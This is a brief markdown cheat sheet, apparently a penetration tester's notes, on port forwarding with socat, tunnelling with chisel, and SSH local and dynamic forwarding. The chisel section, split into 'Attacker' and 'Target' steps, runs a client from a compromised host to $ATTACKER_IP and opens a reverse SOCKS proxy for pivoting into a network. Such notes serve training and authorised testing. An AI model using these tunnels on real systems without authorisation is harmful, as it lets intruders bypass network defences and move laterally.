 # port forwarding with socat
Forward port 80 to 445
```bash
socat TCP-LISTEN:80,fork TCP:127.0.0.1:445
```

# tunneling through chisel
Tunnel through 443 and open a socks proxy on attacker localhost.
## Attacker
```bash
./chisel server --port 443 --reverse
```
## Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# ssh port forwarding
send ssh control sequence on new line `~C`.
client machine's port (ex: 8081) comes first.
```
-L 8081:127.0.0.1:8080
```
or include port forward when running from command line
```bash
ssh -L 8081:127.0.0.1:8080 user@$IP
```

## dynamic ( socks )
-D 1080
